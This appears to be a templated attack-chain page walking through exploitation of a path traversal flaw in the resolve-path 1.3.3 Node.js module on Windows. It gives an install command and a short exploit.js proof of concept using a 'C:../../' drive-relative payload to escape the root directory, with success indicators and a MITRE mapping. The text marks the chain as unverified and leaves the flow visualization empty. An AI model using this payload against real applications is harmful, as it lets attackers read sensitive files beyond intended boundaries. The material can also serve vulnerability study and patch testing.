

# Path Traversal Exploitation in Resolve-Path Node.js Module to Access Sensitive Files

Multi-stage attack chain demonstrating a complete attack workflow for exploiting a path traversal vulnerability in the resolve-path Node.js module.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Node.js]]
- [[tools/NPM]]

### Target Environment

- Windows 10 or later
- Node.js v8.9.4
- NPM v5.6.0

### Initial Access Requirements

- Local access to a Windows machine with Node.js installed
- No network access required; local execution

## Detailed Attack Procedures

### Step 1: Setup Environment

procedure: [[procedures/Install-Resolve-Path-Module]]

**Objective**: Install the vulnerable resolve-path module in a Node.js environment to prepare for exploitation.

**Instructions**: Use [[commands/npm-install-resolve-path]] to install the module:

```bash
npm install resolve-path@1.3.3
```

Verify installation by checking the node_modules directory.

**Expected Output**: Module installed successfully in the project directory.

**Success Indicators**:
- resolve-path package appears in node_modules
- No installation errors

### Step 2: Reproduce Path Traversal

procedure: [[procedures/Reproduce-Path-Traversal-in-Resolve-Path]]

**Objective**: Exploit the path traversal by resolving a malicious Windows path that escapes the root directory, potentially allowing access to sensitive system files.

**Instructions**: Create a JavaScript file (e.g., exploit.js) and execute [[commands/node-execute-resolve-path-call]] to test the vulnerability:

```javascript
// exploit.js
const resolvePath = require('resolve-path');
const result = resolvePath('C:/windows/temp/', 'C:../../');
console.log(result);
```

Run with Node.js:

```bash
node exploit.js
```

**Expected Output**: The resolved path points outside the root, e.g., to 'C:/', demonstrating traversal success.

**Success Indicators**:
- Resolved path escapes 'C:/windows/temp/' boundary
- No normalization or validation blocks the traversal

## Attack Chain Summary

### Key Achievements

1. Successful installation of the vulnerable module
2. Reproduction of path traversal on Windows using drive notation
3. Demonstration of potential access to sensitive files beyond the intended root

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[File and Directory Discovery]]

### MITRE ATT&CK Tactics

- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
